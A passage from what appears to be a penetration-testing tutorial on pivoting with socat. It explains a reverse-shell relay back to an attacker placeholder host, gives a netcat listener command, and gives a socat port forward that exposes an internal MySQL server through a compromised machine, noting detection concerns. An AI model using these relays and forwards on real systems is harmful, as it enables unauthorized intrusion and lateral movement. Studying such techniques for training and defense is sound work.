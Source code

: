 ![image](https://user-images.githubusercontent.com/89842187/131924859-731d3c1a-5574-4ee9-98a3-aee7b9453a15.png)

![image](https://user-images.githubusercontent.com/89842187/131924866-5bca2eb8-fb48-48f1-a802-be5191e64336.png)


A brief explanation of the above command:


- tcp-l:8000 is used to create the first half of the connection -- an IPv4 listener on tcp port 8000 of the target machine.
- tcp:ATTACKING_IP:443 connects back to our local IP on port 443. The ATTACKING_IP obviously needs to be filled in correctly for this to work.
- & backgrounds the listener, turning it into a job so that we can still use the shell to execute other commands.

The relay connects back to a listener started using an alias to a standard netcat listener: sudo nc -lvnp 443.

In this way we can set up a relay to send reverse shells through a compromised system, back to our own attacking machine. This technique can also be chained quite easily; however, in many cases it may be easier to just upload a static copy of netcat to receive your reverse shell directly on the compromised server.

## Port Forwarding -- Easy

The quick and easy way to set up a port forward with socat is quite simply to open up a listening port on the compromised server, and redirect whatever comes into it to the target server. For example, if the compromised server is 172.16.0.5 and the target is port 3306 of 172.16.0.10, we could use the following command (on the compromised server) to create a port forward:

```
./socat tcp-l:33060,fork,reuseaddr tcp:172.16.0.10:3306 &

```

This opens up port 33060 on the compromised server and redirects the input from the attacking machine straight to the intended target server, essentially giving us access to the (presumably MySQL Database) running on our target of 172.16.0.10. The fork option is used to put every connection into a new process, and the reuseaddr option means that the port stays open after a connection is made to it. Combined, they allow us to use the same port forward for more than one connection. Once again we use & to background the shell, allowing us to keep using the same terminal session on the compromised server for other things.

We can now connect to port 33060 on the relay (172.16.0.5) and have our connection directly relayed to our intended target of 172.16.0.10:3306.

## Port Forwarding -- Quiet

The previous technique is quick and easy, but it also opens up a port on the compromised server, which could potentially be spotted by any kind of host or network scanning. Whilst the risk is not massive, it pays to know a slightly quieter method of port forwarding with socat. This method is marginally more complex, but doesn't require opening up a port externally on the compromised server.

First of all, on our own attacking machine, we issue the following command:
